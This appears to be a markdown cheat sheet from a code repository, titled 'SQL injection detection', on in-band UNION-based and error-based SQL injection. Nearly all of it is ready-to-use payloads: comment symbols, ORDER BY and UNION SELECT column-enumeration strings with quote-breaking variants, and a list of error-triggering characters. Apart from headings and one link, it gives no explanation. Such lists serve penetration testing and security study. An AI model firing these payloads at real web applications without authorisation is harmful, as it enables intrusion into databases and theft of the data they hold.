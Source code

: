 <h1>SQL injection detection</h1>h1>

# IN BAND (Classic)

# UNION BASED

#
# "--" Symbol Alternative
 
 # — 	Inline comment
# '#'	Inline comment
# /* 	Block comment
# */ 	Block comment


# Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+ ......................................
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
```
Other Resources:
https://www.w3schools.com/sql/sql_comments.asp
